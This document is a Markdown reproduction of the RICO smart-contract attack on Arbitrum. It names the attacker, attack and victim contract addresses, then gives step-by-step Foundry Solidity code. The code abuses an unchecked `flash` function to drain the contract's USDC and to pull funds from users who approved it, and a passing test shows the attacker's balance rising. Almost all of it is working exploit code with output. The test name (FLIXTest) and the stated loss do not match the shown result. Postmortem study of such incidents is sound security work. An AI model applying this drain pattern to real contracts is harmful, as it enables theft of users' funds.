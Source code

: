 # RICO Attack Incident

## Information
+ Protocol Name: RICO
+ Total Loss: 36 K
+ Network: Arbitrum
  
+ Attacker: 0xc91cb089084f0126458a1938b794aa73b9f9189d
+ Attack Contract: 0x68d843d31de072390d41bff30b0076bef0482d8f
+ Victim Contract: 0x598c6c1cd9459f882530fc9d7da438cb74c6cb3b
+ Transaction: 0x5d2a94785d95a740ec5f778e79ff014c880bcefec70d1a7c2440e611f84713d6

## Reproduction
1. Add funding token and configure block number:
```solidity
uint256 constant forkBlock = 202_973_712;
address constant fundToken = address(0xaf88d065e77c8cC2239327C5EDb3A432268e5831);
```

2. Add constant variable:
```solidity
address constant USDC = 0xaf88d065e77c8cC2239327C5EDb3A432268e5831;
address constant BankDiamond = 0x598C6c1cd9459F882530FC9D7dA438CB74C6CB3b;
address constant Router = 0xE592427A0AEce92De3Edee1F18E0157C05861564;
address constant Victim = 0x512E07A093aAA20Ba288392EaDF03838C7a4e522;
```

3. Add label in `setup` function
```solidity
vm.label(USDC, "USDC");
vm.label(BankDiamond, "BankDiamond");
vm.label(Router, "Router");
vm.label(Victim, "Victim");
```

4. Add necessary interface for victim contract
```solidity
interface IBankDiamond {
    function flash(address, bytes calldata) external returns (bytes memory result);
}
```

5. Execute exploit process:
Main Logic 1
```solidity
// Step 1: Execute flash loan and perform transfer operation
address token = USDC;
IBankDiamond(BankDiamond).flash(token, _getTransferData(token));
```

Helper function
```solidity
function _getTransferData(address token) internal view returns (bytes memory data) {
    uint256 tokenBalance = IERC20(token).balanceOf(BankDiamond);
    data = abi.encodeWithSelector(IERC20.transfer.selector, address(this), tokenBalance);
}
```

Main Logic 2
```solidity
transferFromOwner(Victim, USDC);
```

Helper function
```solidity
function transferFromOwner(address owner, address token) internal {
    bytes memory callData = _getTransferFromData(token, owner);
    if (callData.length > 0) {
        IBankDiamond(BankDiamond).flash(token, callData);
    }
}

function _getTransferFromData(address token, address user) internal view returns (bytes memory data) {
    uint256 tokenBalance = IERC20(token).balanceOf(BankDiamond);
    uint256 tokenAllowance = IERC20(token).allowance(user, BankDiamond);
    if (tokenBalance >= tokenAllowance) {
        data = abi.encodeWithSelector(IERC20.transferFrom.selector, user, address(this), tokenBalance);
    }
}
```

6. Run forge command and check the final result:

Command
```bash
forge test --mc FLIXTest -vvv
```

Result
```bash
[PASS] testExploit() (gas: 103727)
Logs:
  Attacker Token Balance Before Exploit:  0
  Attacker Token Balance After Exploit:  10375584869

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 538.11ms (2.09ms CPU time)
```